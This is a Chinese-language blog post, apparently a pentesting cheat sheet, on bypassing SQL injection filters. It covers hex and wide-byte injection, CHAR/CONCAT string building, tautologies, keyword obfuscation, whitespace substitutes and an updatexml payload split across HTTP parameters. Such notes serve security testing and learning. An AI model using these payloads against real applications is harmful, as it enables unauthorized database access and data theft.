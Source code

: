 ```yaml
---
published: true
layout: post
tags:
  - sae
categories: null
description: 本文章将sql注入的绕过方法
---
```

## sql注入检测的一些绕过方法  
### 在mysql和mssql中重要的数据库：
- Information_schema数据库：作用是保存所有数据库信息。 
- information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍： 
- table_schema: 记录数据库名；
- table_name: 记录数据表名；
- table_rows: 关于表的粗略行估计；
- data_length : 记录表的大小（单位字节）；
- Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息

### 绕过sql注入检测的技巧:

### 遇到单引号转译 可以考虑使用16进制绕过：
table_name=’users ’——》table_name=0×757365727    
### 当’被转译为 \’ 时可以考虑宽字节注入：
   发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入   
### 避开单引号过滤：
1.输入单引号没反应，尝试输入”  
2.可以使用ascII 替代字符串不必使用单引号：       
- mysql:连接字符串是CONCAT函数,select name=concat(CHAR(97),char(114))   
- Oracle: select name=chr(97)\|\|chr(114)  
- Ms-SQL:select name=char(97)+char(114)

### --注释符被阻止时考虑闭合: 
‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a    
### =号被阻止：  
使用<>（不等于）例：!(table_schema<>database())  
### select 被过滤:  
使用 SeLEct selselectect、%53%45%4c%45%54、se%a0lect来绕过。   
### 空格过滤:  
1.使用注释 /\*foo\*/:   
select/*foo*/uername,password/\*foo\*/from  
2.使用特殊符号代替空格:  
%0b TAB键（垂直）、%a0 空格 、%09 TAB键（水平）、%0a 新建一行、 %0c 新的一页 、%0d return功能 
 
### HPF(http分割注入)
  post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1 ,这个构造语句把中间的password参数给注释掉了

ps:  

在url中使用--注释时，可能会需要使用--+才能成功注释  
and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-）%26)  

